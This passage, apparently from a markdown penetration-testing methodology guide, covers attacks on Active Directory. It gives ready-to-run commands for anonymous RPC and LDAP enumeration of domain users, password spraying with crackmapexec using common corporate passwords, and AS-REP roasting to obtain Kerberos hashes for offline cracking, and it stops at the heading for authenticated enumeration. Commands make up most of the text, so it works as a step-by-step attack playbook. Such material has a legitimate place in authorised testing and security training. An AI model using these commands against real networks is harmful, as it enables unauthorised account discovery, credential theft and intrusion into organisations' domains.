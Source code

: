 #### Step 3: RPC Enumeration
```bash
# Connect to RPC without credentials
rpcclient -U '' -N $TARGET

# Once connected, try these commands:
rpcclient $> enumdomusers    # List all domain users
rpcclient $> enumdomgroups   # List all domain groups  
rpcclient $> querydominfo    # Get domain information

# Why RPC? It often allows anonymous connections and reveals user lists
# User lists = targets for password attacks
```

#### Step 4: LDAP Enumeration
```bash
# Test anonymous LDAP access
ldapsearch -x -H ldap://$TARGET -s base namingcontexts

# If this works, LDAP allows anonymous queries - jackpot!
# Extract domain info:
ldapsearch -x -H ldap://$TARGET -b "DC=domain,DC=local"

# Why LDAP? It's the AD database - if you can query it anonymously,
# you can get EVERYTHING (users, groups, computers, passwords policies)
```

### Phase 2: User Discovery & Initial Access

#### Password Spraying (Safest Attack)
```bash
# After getting user list from RPC/LDAP, try common passwords
crackmapexec smb $TARGET -u users.txt -p 'Password123' --continue-on-success
crackmapexec smb $TARGET -u users.txt -p 'Welcome1' --continue-on-success
crackmapexec smb $TARGET -u users.txt -p 'Summer2024' --continue-on-success

# Why these passwords? Most common in corporate environments
# --continue-on-success = don't stop at first hit, find ALL valid accounts
```

#### AS-REP Roasting (No Credentials Needed)
```bash
# Target users who don't require Kerberos pre-authentication
GetNPUsers.py -no-pass -usersfile users.txt $DOMAIN/ -dc-ip $TARGET

# What is AS-REP Roasting?
# Some users have "Do not require Kerberos preauthentication" checked
# This means you can request their password hash WITHOUT knowing their password
# Then crack the hash offline = free password!
```

### Phase 3: Authenticated Enumeration (You Have Credentials)
